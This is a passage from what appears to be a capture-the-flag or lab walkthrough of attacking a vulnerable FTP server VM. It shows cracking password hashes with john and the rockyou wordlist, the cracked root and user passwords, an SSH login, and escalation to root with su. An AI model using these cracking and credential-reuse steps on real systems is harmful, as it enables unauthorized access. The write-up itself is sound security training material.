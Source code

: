 ## Let's do some bruteforcing

I'll store the hashes in a file called `hashes` and run `john` on it. Just `-single` yields no results, which is quite expected. It's time to bring out the big guns: `-rules`, `-wordlist` and `-fork`.

    root@kali:~# john -rules -wordlist=/usr/share/wordlists/rockyou.txt -fork=8 hashes

`-wordlist` defines a list of words to try as passwords, and `-rules` enables multiple mutation rules that are applied to each password. Kali comes packed with the "rockyou"-wordlist, that contains around 14.3 million commonly used passwords. This list combined with the default ruleset for john creates a massive amount of password candidates to go through. To ease this process, I'll tell `john` to use eight processes, with `-fork=8`, to go through the passwords. (Eight, because that's how many cores my Kali VM has available). Hitting almost any key while `john` is running will print its status:

    1 0g 0:00:00:07 0.01% (ETA: 2017-09-10 15:03) 0g/s 6515p/s 26067c/s 26067C/s purrfect..poppa1
    5 0g 0:00:00:07 7.03% (ETA: 02:10:28) 0g/s 6593p/s 26378c/s 26378C/s fadhli1..estevez1
    7 0g 0:00:00:07 10.56% (ETA: 02:09:55) 0g/s 6935p/s 27745c/s 27745C/s eillomeillom..edwoodedwood
    8 0g 0:00:00:07 12.29% (ETA: 02:09:45) 0g/s 6281p/s 25127c/s 25127C/s htehpaj..yemaj
    3 0g 0:00:00:07 3.52% (ETA: 02:12:08) 0g/s 6604p/s 26422c/s 26422C/s Dancer91..Dafydd
    6 0g 0:00:00:07 8.78% (ETA: 02:10:08) 0g/s 6515p/s 26061c/s 26061C/s Mybike1..Muhamed1
    4 0g 0:00:00:07 5.27% (ETA: 02:11:01) 0g/s 6273p/s 25100c/s 25100C/s mamadoras..mahpahs
    2 0g 0:00:00:07 1.87% (ETA: 02:15:03) 0g/s 6255p/s 25025c/s 25025C/s janeiro..jammin

About 30 seconds worth of increasing my room's ambient temperature, `john` has found two passwords:

    root@kali:~# john -show hashes
    root:Complexity:13574:0:::::
    bbanter:Zymurgy:13571:0:99999:7:::

Our beloved intern Bob from before did come up with a better password than just `bbanter`, but it still succumbed to the bruteforce. I also have a password for root (!).

## Get in and find something tasty

Now that I have a user and a password for it, I can log in through SSH.

    root@kali:~# ssh bbanter@192.168.1.110
    bbanter@192.168.1.110's password:
    Linux 2.6.16.
    bbanter@slax:~$

I'm not interested in this user; I'll head straight for `root`.

    bbanter@slax:~$ su
    Password: **********
    root@slax:/home/bbanter#

This being an FTP-server, I'm guessing the good stuff is over at the `ftp` user's home directory. However, it just contains the stuff that's already available through the anonymous FTP server. Let's check the other users:

    root@slax:/home# ls -a
    . .. aadams bbanter	ccoffee ftp root

